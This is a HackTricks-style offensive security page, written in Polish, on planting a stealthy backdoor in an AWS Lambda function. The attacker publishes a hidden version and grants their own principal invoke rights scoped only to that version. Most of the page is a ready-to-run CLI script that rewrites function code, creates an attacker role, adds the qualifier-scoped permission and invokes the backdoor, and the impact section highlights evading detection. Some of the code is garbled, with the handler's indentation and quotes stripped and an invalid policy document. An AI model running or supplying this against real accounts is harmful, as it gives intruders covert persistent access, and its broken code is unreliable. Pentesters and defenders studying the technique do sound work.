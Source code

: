 # AWS - Lambda Alias-Scoped Resource Policy Backdoor (Invoke specific hidden version)

{{#include ../../../../banners/hacktricks-training.md}}

## Podsumowanie

Utwórz ukrytą wersję Lambda z logiką atakującego i zastosuj resource-based policy przypisaną do tej konkretnej wersji (lub aliasu) używając parametru `--qualifier` w `lambda add-permission`. Przyznaj tylko `lambda:InvokeFunction` na `arn:aws:lambda:REGION:ACCT:function:FN:VERSION` dla principal atakującego. Normalne wywołania przez nazwę funkcji lub główny alias pozostają bez zmian, podczas gdy atakujący może bezpośrednio wywoływać backdoored version ARN.

To jest bardziej skryte niż wystawienie Function URL i nie zmienia głównego aliasu ruchu.

## Wymagane uprawnienia (atakujący)

- `lambda:UpdateFunctionCode`, `lambda:UpdateFunctionConfiguration`, `lambda:PublishVersion`, `lambda:GetFunctionConfiguration`
- `lambda:AddPermission` (aby dodać policy scoped do wersji)
- `iam:CreateRole`, `iam:PutRolePolicy`, `iam:GetRole`, `sts:AssumeRole` (aby zasymulować principal atakującego)

## Kroki ataku (CLI)

<details>
<summary>Opublikuj ukrytą wersję, dodaj uprawnienie ograniczone do kwalifikatora, wywołaj jako atakujący</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# [Optional] If you want normal traffic unaffected, ensure a customer alias (e.g., "main") stays on a clean version
# aws lambda create-alias --function-name "$TARGET_FN" --name main --function-version <clean-version> --region "$REGION"

# 1) Build a small backdoor handler and publish as a new version
cat > bdoor.py <<PY
import json, os, boto3

def lambda_handler(e, c):
ident = boto3.client(sts).get_caller_identity()
return {"ht": True, "who": ident, "env": {"fn": os.getenv(AWS_LAMBDA_FUNCTION_NAME)}}
PY
zip bdoor.zip bdoor.py
aws lambda update-function-code --function-name "$TARGET_FN" --zip-file fileb://bdoor.zip --region $REGION
aws lambda update-function-configuration --function-name "$TARGET_FN" --handler bdoor.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --region $REGION --query LastUpdateStatus --output text)" = "Successful" ]; do sleep 2; done
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
VER_ARN=$(aws lambda get-function --function-name "$TARGET_FN:$VER" --region $REGION --query Configuration.FunctionArn --output text)
echo "Published version: $VER ($VER_ARN)"

# 2) Create an attacker principal and allow only version invocation (same-account simulation)
ATTACK_ROLE_NAME=ht-version-invoker
aws iam create-role --role-name $ATTACK_ROLE_NAME --assume-role-policy-document Version:2012-10-17 >/dev/null
cat > /tmp/invoke-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": ["lambda:InvokeFunction"],
"Resource": ["$VER_ARN"]
}]
}
POL
aws iam put-role-policy --role-name $ATTACK_ROLE_NAME --policy-name ht-invoke-version --policy-document file:///tmp/invoke-policy.json

# Add resource-based policy scoped to the version (Qualifier)
aws lambda add-permission \
--function-name "$TARGET_FN" \
--qualifier "$VER" \
--statement-id ht-version-backdoor \
--action lambda:InvokeFunction \
--principal arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME \
--region $REGION

# 3) Assume the attacker role and invoke only the qualified version
ATTACK_ROLE_ARN=arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME
CREDS=$(aws sts assume-role --role-arn "$ATTACK_ROLE_ARN" --role-session-name htInvoke --query Credentials --output json)
export AWS_ACCESS_KEY_ID=$(echo $CREDS | jq -r .AccessKeyId)
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | jq -r .SecretAccessKey)
export AWS_SESSION_TOKEN=$(echo $CREDS | jq -r .SessionToken)
aws lambda invoke --function-name "$VER_ARN" /tmp/ver-out.json --region $REGION >/dev/null
cat /tmp/ver-out.json

# 4) Clean up backdoor (remove only the version-scoped statement). Optionally remove the role
aws lambda remove-permission --function-name "$TARGET_FN" --statement-id ht-version-backdoor --qualifier "$VER" --region $REGION || true
```
</details>

## Wpływ

- Zapewnia dyskretny backdoor umożliwiający wywoływanie ukrytej wersji funkcji bez modyfikowania primary alias ani ujawniania Function URL.
- Ogranicza ekspozycję wyłącznie do wskazanej wersji/aliasu za pomocą resource-based policy `Qualifier`, zmniejszając powierzchnię wykrycia, przy jednoczesnym zachowaniu niezawodnego wywołania dla attacker principal.

{{#include ../../../../banners/hacktricks-training.md}}

